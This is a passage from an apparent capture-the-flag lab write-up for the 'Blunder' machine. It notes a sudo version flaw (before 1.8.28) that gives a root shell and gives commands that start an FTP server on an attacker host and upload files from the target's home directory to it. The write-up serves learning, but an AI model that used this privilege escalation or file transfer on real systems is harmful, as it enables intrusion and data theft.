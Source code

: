 This target is vulnerable since all version before `1.8.28` are affected. Use this to get a shell as `root`:

![root1](./blunder/root1.png)

---

This machine had some interesting rabbit holes to get lost in... Here are some:

### Rabbit Hole #1:

When looking through files on the target machine under `/home`, 2 interesting ones stand out:

![rb1](./blunder/rb1.png)

Transfer the files over FTP to Kali:

```bash
# run on kali
sudo python3 -m pyftpdlib -p 21 -w
# run on target
cd /home/shaun/Pictures
ftp 10.10.14.25
passive
mput *
```

